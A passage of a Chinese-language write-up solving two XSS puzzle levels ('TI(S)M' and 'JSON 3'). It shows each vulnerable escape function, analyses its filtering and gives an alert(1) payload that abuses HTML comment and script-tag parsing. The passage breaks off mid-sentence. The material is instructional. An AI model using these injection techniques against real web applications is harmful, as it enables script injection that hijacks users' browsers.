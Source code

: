 <a name="a014"/></a>
### TI(S)M (25)
```javascript
function escape(s) {
  function json(s) { return JSON.stringify(s).replace(/\//g, '\\/'); }
  function html(s) { return s.replace(/[<>"&]/g, function(s) {
                        return '&#' + s.charCodeAt(0) + ';'; }); }

  return (
    '<script>' +
      'var url = ' + json(s) + '; // We\'ll use this later ' +
    '</script>\n\n' +
    '  <!-- for debugging -->\n' +
    '  URL: ' + html(s) + '\n\n' +
    '<!-- then suddenly -->\n' +
    '<script>\n' +
    '  if (!/^http:.*/.test(url)) console.log("Bad url: " + url);\n' +
    '  else new Image().src = url;\n' +
    '</script>'
  );
}
```
有两个可控的注入点，一是`json(s)`二是`html(s)`，前者转义了`" \ /"`字符，后者对`< > " &`进行了HTML编码。如果我们让s为`<!--<script>`
Output
```html
<script>var url = "<!--<script>"; // We'll use this later </script>

  <!-- for debugging -->
  URL: &#60;!--&#60;script&#62;

<!-- then suddenly -->
<script>
  if (!/^http:.*/.test(url)) console.log("Bad url: " + url);
  else new Image().src = url;
</script>
```
保存本地执行，并在浏览器中审查元素不难发现，其对`<script>`标签的匹配产生了影响，有了3个起始标签而只有2个结束标签，并且一个`</script>`标签被注释掉了，调整得到
payload
```html
if(alert(1)/*<!--<script>
```

<a name="a015"/></a>
### JSON 3 (29)
```javascript
function escape(s) {
  return s.split('#').map(function(v) {
      // Only 20% of slashes are end tags; save 1.2% of total
      // bytes by only escaping those.
      var json = JSON.stringify(v).replace(/<\//g, '<\\/');
      return '<script>console.log('+json+')</script>';
      }).join('');
}
```
字符串`s`首先以字符`#`分割为字符串数组，然后对数组中的每一个字符串调用匿名函数，每一次调用返回类似`<script>console.log('+s[0]+')</script>`的字符串，然后再将其拼接。上一题谈过字符串`<!--<script>`会对标签的匹配产生影响，利用这一点首先尝试
```html
<!--<script>#aaa
```
Output
```html
<script>console.log("<!--<script>")</script><script>console.log("aaa")</script>
```
将其保存在本地，经过浏览器执行后，使用审查元素可以看到，原本的两个<script>标签被当成一个标签进行处理，由于`<!--`后面没有`-->`整个标签都没有得到执行，自然console也没有任何的报错信息。于是尝试